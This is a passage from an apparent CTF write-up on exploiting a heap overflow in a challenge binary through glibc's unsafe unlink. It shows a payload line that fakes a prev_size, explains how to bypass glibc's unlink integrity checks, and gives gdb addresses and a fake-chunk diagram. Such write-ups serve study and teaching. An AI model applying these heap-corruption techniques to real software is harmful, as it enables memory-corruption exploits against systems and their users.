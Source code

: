 Also since the PREV_INUSE is now 0, the `chunkA.content[0x5d0:0x5d8]` will now be considered as the `chunkB.mchunk_prev_size`, use a fake one to overwrite it.

Construct the payload and use it to edit the first ddl obj:

```python
edit_ddl_conn(1, '', b'A' * (DDL_CONTENT - 8) + p64(0x600))
```

But that not enough, this will only leed to a crash of the program. We need to modify more.

#### Pass 2 checks

The unlink process is not so vulnerable that it has the following checks:

> 不过，在glibc版本不断更新的过程中，各种类型的保护也已经引入了；可以看到如代码中有两处检查报错，第一处检查了伪造的chunk的size字段，而第二处，则是对将要访问的`FD->bk`进行了检查，即相当于检查了要摘除的`chunk`其`fd`指针指向的下一个chunk的`bk`指针是否指回了该chunk，这样的检查限制了我们的`FD`不能为任意地址，而一定是一个往后取24字节偏移需要指回来的地址

To pass `__builtin_expect(chunksize(P) != prev_size(next_chunk(P)), 0)`, notice here that `chunksize(P)` dose not take flags bits into considered but `prev_size(next_chunk(P))` does. So the prev_size of second chunk should have all flags set zeroes.

To pass `__builtin_expect(FD->bk != P || BK->fd != P, 0)`, `*(*(P + 16) + 24) == P && *(*(P + 24) + 16) == P` must be satisfied.

First I try getting this using gdb:

```python
pwndbg> p (int *) &array
$1 = (int *) 0x6020e0
pwndbg> p *(void **)array
$2 = (void *) 0x4847464544434241  # I used 'ABCDEFGH' as input
pwndbg> p (int *)&targetID
$3 = (int *) 0x6020c0 <targetID>
```

Here we get the addr of `targetID` which is 0x6020c0, it has an offset -0x11A0 to `arrat`

Rewrite the macro of unlink:

```c
fake_chunk->fd->bk = fake_chunk->bk;
fake_chunk->bk->fd = fake_chunk->fd;
```

If we use `targetID`'s addr minus 24 as `fake_chunk->fd`

Draw a graph to represent

```
+------------------+------------------+ <-- ary[0]-0x10 == old_ck
| mchunk_prev_size |   mchunk_size    |
+------------------+------------------+ <-- ary[0] == old_ck->ddl_time
|                  |                  | 
+------------------+------------------+
|                  |                  | 
+------------------+------------------+ <-- ary[0]+0x20 == old_ck->cont == fake_ck
| mchunk_prev_size |   mchunk_size    |
+------------------+------------------+
|        fd        |        bk        |
+------------------+------------------+
|       ....       |       ....       |
```
